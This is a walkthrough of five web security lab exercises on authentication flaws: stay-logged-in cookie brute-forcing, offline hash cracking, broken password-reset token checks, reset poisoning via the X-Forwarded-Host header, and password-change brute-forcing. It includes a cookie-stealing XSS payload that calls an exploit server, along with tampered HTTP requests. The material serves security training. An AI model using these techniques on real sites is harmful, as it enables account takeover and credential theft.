




Users typically can have the opportunity to change their password or reset if they forget it. This can be a target of attackers.

## Keeping Users Logged In

In some websites there are options to `Remember me` or `Keep me logged in`, which usually is implemented by generating a token, which is then stored in a persistent cookie.

Possessing this cookie, allows you to bypass the whole login process.

Some websites generate this cookie based on a predictable concatenation of static values, such as `username and timestamp`.

There are cases that even use the password as part of the cookie. And if the attacker is able to create its own account, they can study their cookie. After they worked out the formula they can try to brute-force other cookies.

Some even try to "encrypt" it using base-64 encoding, which doesn't offer protection at all.

### Lab. 1 - Brute-Forcing a Stay-Logged-In Cookie

In this lab, users are allowed to stay logged in after they close their browser session. 

The goal of the lab is to brute-force Carlos's cookie to gain access to his account page.

My credentials are `wiener:peter`.

I login with my credentials and check the box to `Remember me`. Afterwards I see the response that I got to this request, and observe this sets in also the `stay-logged-in` cookie.

```http
HTTP/2 302 Found
Location: /my-account?id=wiener
Set-Cookie: stay-logged-in=d2llbmVyOjUxZGMzMGRkYzQ3M2Q0M2E2MDExZTllYmJhNmNhNzcw; Expires=Wed, 01 Jan 3000 01:00:00 UTC
Set-Cookie: session=wpKk0mG12hBkiZN6CDXWrkJrgcbuEdVt; Secure; HttpOnly; SameSite=None
X-Frame-Options: SAMEORIGIN
Content-Length: 0
```

In the inspector panel, decoded from `Base64` this shows as: `wiener:51dc30ddc473d43a6011e9ebba6ca770`, and from this I can think that the second part is the hashed form of the password.

So, I'm going to try first with my password if this is the case.

I sent the request where I logged in to the Intruder, by selecting the value of `stay-logged-in`, and in the `Simple list` I add only my password `peter`, and some thing random. In the Payload processing I add the Hash and chose MD5.



Now I want to follow the logic of the cookie, so I will add a prefix here as well `wiener:`

And in the end, encode it to Base64.



Delete the session cookie value, and start the attack.

There I see that I got a `200 OK` and a `302 Found` response, and the `200` was for the password `peter`, so I know that this is how the cookie is created, and now instead of the prefix `wiener` and the url `/id=wiener` I add `carlos` and in the list, I add all the password candidates and start the attack.

Now, I see that one response has a `200 OK` with the payload `Y2FybG9zOmQ1YWExNzI5YzhjMjUzZTVkOTE3YTUyNjQ4NTVlYWI4`, I open that in the browser, and the lab is solved.

-------
### Lab.2 - Offline Password Cracking

Using techniques such as XSS an attacker can steal another user's `remember me` cookie and see how the cookie is constructed from that.

There are even cases when it can be possible to get the password in cleartext from a cookie, even if it is hashed, because hashed versions of well-known passwords are stored online.

The goal of the lab is to obtain the password for `carlos`, and login to carlos's account page, and delete the account. The lab also has a XSS vulnerability in the comment section. I can login with my credentials `wiener:peter`.

After I login with my credentials, with the `Remember Me` checked, I analyze the response in Burp. There I see the `stay-logged-in` cookie, which when I inspect in the Burp Inspector, I see that when decoded from Base64, it is: `wiener:51dc30ddc473d43a6011e9ebba6ca770`.

So, this tells that the it is being `username:MD5 hashed password` has been encoded in Base64.

I confirm the XSS vulnerability by posting a comment: `<script>alert(1);</script>` and when getting back to the comments I see the alert.



I add this JS code to the comment: `<script>document.location='https://exploit-0a55000f0465d50182b3b1a001c7006d.exploit-server.net/exploit/'+document.cookie</script>` pointing to the exploit server.

And then in the exploit server, I access the logs, and I see a GET request to the exploit server.

```http
GET /exploit/secret=1XOZZSt0TKx8n0bbmGovsXmTfOA9qWPw;%20stay-logged-in=Y2FybG9zOjI2MzIzYzE2ZDVmNGRhYmZmM2JiMTM2ZjI0NjBhOTQz HTTP/1.1" 404 "user-agent: Chrome/143664
```

Here I have the `stay-logged-in` cookie, which after decoding from Base64 from CyberChef I got: `carlos:26323c16d5f4dabff3bb136f2460a943`.

Now, since many MD5 hashes are already decrypted online, I will just search for this MD5 on Google, and I see that the password is `onceuponatime`.

I used that to login and delete the account, and the lab is solved.

------

## Resetting Passwords Using a URL

Usually websites send a URL to users when they want to reset their password, sending them to a password reset page.

`http://vulnerable-website.com/reset-password?user=victim-user`

This link tells the attacker the username, and the attacker can change the user parameter to any username they want to reset the password.

`http://vulnerable-website.com/reset-password?token=a0ba0d1cb3b63d13822572fcff1a241895d893f659164d4cc550b421ebdd48a8`

A URL like this is more secure, as the system should check if this token exists on the backend, and if it does, which user's password it's supposed to reset. The token should expire after a short period of time, and destroyed after the password has been reset.

But, some websites fail to validate the token when the reset form is submitted, and an attacker can simply visit the reset form from their own account, delete the token, and use the page to reset an arbitrary user's password.

### Lab.3 - Password Reset Broken Logic

The goal of the lab is to reset `Carlos's` password and login to his account page.

My credentials are `wiener:peter`

I click on `Forgot your password` and provide my username, then go to the email and click the link, which now asks me for the new password.

The link is: `https://0a5400660449e30781fc201e006c00b7.web-security-academy.net/forgot-password?temp-forgot-password-token=f7t36khdjvssa0ee1acxn52hlmnz1k75`

So here there's no username, that I can change. I go and check the response in the Burp, and in there I find a hidden field with my username:

```html
<form class=login-form method=POST>
                        <input required type=hidden name=temp-forgot-password-token value=f7t36khdjvssa0ee1acxn52hlmnz1k75>
                        <input required type=hidden name=username value=wiener>
                        <label>New password</label>
                        <input required type=password name=new-password-1>
                        <label>Confirm new password</label>
                        <input required type=password name=new-password-2>
                        <button class='button' type='submit'> Submit </button>
                    </form>
```

Then the Request of when I change my password, uses the username as the parameter. I send this request to the Burp Repeater.

The request is:

```http
POST /forgot-password?temp-forgot-password-token=f7t36khdjvssa0ee1acxn52hlmnz1k75 HTTP/2
Host: 0a5400660449e30781fc201e006c00b7.web-security-academy.net
Cookie: session=eMxYvuJdq7FZJBMJhKOkrV6GeQ5C0Awu
Content-Length: 115
Cache-Control: max-age=0
Sec-Ch-Ua: "Chromium";v="131", "Not_A Brand";v="24"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "macOS"
Accept-Language: en-US,en;q=0.9
Origin: https://0a5400660449e30781fc201e006c00b7.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/131.0.6778.86 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://0a5400660449e30781fc201e006c00b7.web-security-academy.net/forgot-password?temp-forgot-password-token=f7t36khdjvssa0ee1acxn52hlmnz1k75
Accept-Encoding: gzip, deflate, br
Priority: u=0, i

temp-forgot-password-token=f7t36khdjvssa0ee1acxn52hlmnz1k75&username=wiener&new-password-1=test&new-password-2=test
```

When I delete the value of the token and send this request, I still get a `HTTP/2 302 Found` which means this is not being validated.

```http
HTTP/2 302 Found
Location: /
X-Frame-Options: SAMEORIGIN
Content-Length: 0
```

Now, I will remove this token, and change the username from wiener to carlos.

`temp-forgot-password-token=&username=carlos&new-password-1=halilWasHere&new-password-2=halilWasHere`

I get again a `HTTP/2 302 Found`, and now I will try the new password. It works and the lab is solved.

-----------

## Password Reset Poisoning

A technique where an attacker manipulates a vulnerable website into generating a password reset link pointing to a domain under their control.

This can be leveraged to steal the secret tokens required to reset passwords.

If the URL that is sent to the user is dynamically generated based on controllable input, such as the `Host` header, it can be possible to construct the attack.

- The attacker gets the victim's email address or username and submits a password reset request. They intercept the resulting HTTP request and modify the `Host` header to point to a domain that they control.
- The victims gets a password reset email from the website, and this seems to contain a link to reset the password. However, the domain name in the URL points to the attacker's server:
  `https://evil-user.net/reset?token=0a1b2c3d4e5f6g7h8i9j`.
- If the victim clicks the link, the reset token will be delivered to the attacker's server.
- The attacker now can visit the real URL with the stolen token and reset the password.

### Lab.4 Password Reset Poisoning via Middleware

`carlos` clicks on any links in the email. The goal is to login to the `carlos` account. I can login to my account `wiener:peter`.

I try the password reset functionality, and send the requests to Burp. In there I add a `X-Forwarded-Host` header, and put the URL of the exploit server.

`X-Forwarded-Host: exploit-0a5100f104408db9812e0768011500b6.exploit-server.net/`

Also in the body I remove the `username=wiener` and put `username=carlos`, and send this request. The Response is `200 OK`.

In the access log of the exploit server I got a new connection:

```http
GET //forgot-password?temp-forgot-password-token=ak9i3ti8a39n7082p5unywstfdkkjr6k HTTP/1.1" 404 "user-agent: Mozilla/5.0 (Victim) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/125.0.0.0 Safari/537.36
```

Here I can see the token of the `carlos`.

I open my email client, to see the link where I requested my password to be reset, and open it, then I send it to the Burp Repeater.

I modify the `temp-forgot-password-token` and add the stolen token: `GET /forgot-password?temp-forgot-password-token=ak9i3ti8a39n7082p5unywstfdkkjr6k HTTP/2` and send it.

It prompts me to give a new password, which then I use to login and the lab is solved.


---------

## Changing User Passwords

To change the password, you typically have to enter your old password and then two times the new one.

This process relies on the same process for checking that the username and the password match, as a normal login page, so the same vulnerabilities apply here.

Beside that, password change functionalities can be dangerous if it allows an attacker to access it without being logged in, for example if the username is provided in a hidden field, an attacker can edit the value in the request to target other users. From this, usernames can be enumerated and password can be brute-forced.

### Lab.5 Password Brute-Force via Password Change

Credentials to login `wiener:peter` and the victim's username is `carlos`. The goal is to find the password for `carlos` and access it's account page.

I login to the `wiener` account page, and there is a functionality to change the password.



After trying some attempts, I observed the behavior of the function:
- False current password, matching new passwords - Account is logged out (Please try again in 1 minute).
- False current password, non-matching new passwords - Message: "Current password is incorrect".
- Matching current password, non-matching new passwords - Message: "New passwords do not match".

So, we can use this behavior to brute-force the password. This by using the 3rd case.

By sending this to the `Burp Intruder` and there leaving `non-matching` new passwords, and brute-forcing the current password, we can see about the message that it is provided. If it is "New passwords do not match" then we have a hit.

The body of the request sent to Intruder should be similar to:

`username=carlos&current-password=§peter§&new-password-1=halil&new-password-2=halilBerisha`

Then with the `Sniper Attack` and by adding the candidate passwords to the list payload, start the attack.

To make it easier add a `Grep - Extract` on the message from the response.

The result is:


So we can see that the password for `carlos` is `jordan`. I login with these credentials, and the lab is solved.

